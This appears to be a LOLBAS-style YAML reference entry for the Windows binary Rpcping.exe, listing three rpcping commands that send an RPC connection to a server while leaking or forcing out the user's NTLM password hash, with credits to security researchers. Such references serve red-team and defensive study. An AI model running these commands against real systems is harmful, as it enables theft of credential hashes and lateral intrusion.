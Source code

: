 ---
Name: Rpcping.exe
Description: Credentials
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: rpcping -s 127.0.0.1 -t ncacn_np
    Description: Send a RPC test connection to the target server (-s) sending the password hash in the process.
  - Command: rpcping -s 192.168.1.10 -ncacn_np
    Description: Send a RPC test connection to the target server (-s) sending the password hash in the process.
  - Command: rpcping -s 127.0.0.1 -e 1234 -a privacy -u NTLM
    Description: Send a RPC test connection to the target server (-s) and force the NTLM hash to be sent in the process.
Full Path:
  - C:\Windows\System32\rpcping.exe
  - C:\Windows\SysWOW64\rpcping.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/subtee/status/872797890539913216
  - https://github.com/vysec/RedTips
  - https://twitter.com/vysecurity/status/974806438316072960
  - https://twitter.com/vysecurity/status/873181705024266241
Notes: Thanks to Casey Smith - @subtee, Vincent Yiu - @vysecurity


